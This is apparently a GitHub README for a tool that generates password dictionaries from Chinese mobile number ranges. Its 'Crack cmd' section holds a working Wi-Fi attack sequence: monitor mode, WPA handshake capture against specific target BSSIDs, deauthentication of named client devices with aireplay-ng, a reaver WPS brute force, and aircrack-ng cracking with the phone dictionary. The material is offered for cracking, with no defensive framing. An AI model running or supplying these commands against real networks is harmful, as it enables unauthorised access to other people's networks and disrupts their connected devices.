 # Generate dictionary based on Chinese phone number

## Usage
Set priority in table `province_priority` to adjust the sequence of the province in dict, priority 0 will not be generated.

- `fetch_url.py` fetches all phone number regions from [www.51hao.cc](http://www.51hao.cc)
- `load_phone_region.py` loads phone numbers to sqlitedb
- `phone_dict_gen.py` will generate the phone dicts

## Crack cmd
```bash
# wlan interface
wlan_mon_if=wlan1mon
# Enable monitor mode
sudo airmon-ng start ${wlan_mon_if}

# Sniff
# Sniff wifi, -c CHANNEL
rm -fr *.cap && sudo airodump-ng --wps -w wpa ${wlan_mon_if} -c 6

###################################################################
# tgt is the target wifi to crack, clientvic is the client to deauth
tgt=8C:18:50:56:2B:28

# Collect the handshake cap
sudo rm -fr *.cap && sudo airodump-ng --bssid ${tgt} -w ${tgt}.cap ${wlan_mon_if} -c 2

# # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # # 
# Deauth the client
tgt=8C:18:50:56:2B:28

clientvic=14:5F:94:8C:AA:BF
sudo aireplay-ng -0 10 -a ${tgt} -c ${clientvic} ${wlan_mon_if}
clientvic=74:E2:F5:33:23:D4
sudo aireplay-ng -0 10 -a ${tgt} -c ${clientvic} ${wlan_mon_if}

###################################################################

sudo reaver -i ${wlan_mon_if} -b ${tgt} –a –S –vv –d 0  -c 11


caps=BC-5F-F6-B2-6B-02_handshake.cap

# Check SSID
aircrack-ng  -J wpahash ${caps}

# Crack
aircrack-ng -l wpakey.txt -w ~/phone_dict_gen/phone.dict ${caps}
```


## Phone data src
https://gitee.com/oss/phonedata/attach_files